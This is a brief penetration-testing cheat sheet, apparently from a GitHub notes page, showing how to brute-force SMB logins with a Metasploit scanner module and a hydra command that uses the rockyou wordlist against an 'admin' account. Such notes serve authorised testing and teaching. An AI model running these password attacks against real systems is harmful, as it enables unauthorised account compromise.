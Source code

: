
### Using `metasploit`

Metasploit module to bruteforce SMB login.
```
use auxiliary/scanner/smb/smb_login
```

- Wordlist path - `/usr/share/wordlists/metasploit/unix_passwords.txt`
- Enumerate the users beforehand.

### Using `hydra`

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> smb
```

- `-P` - Wordlist path.
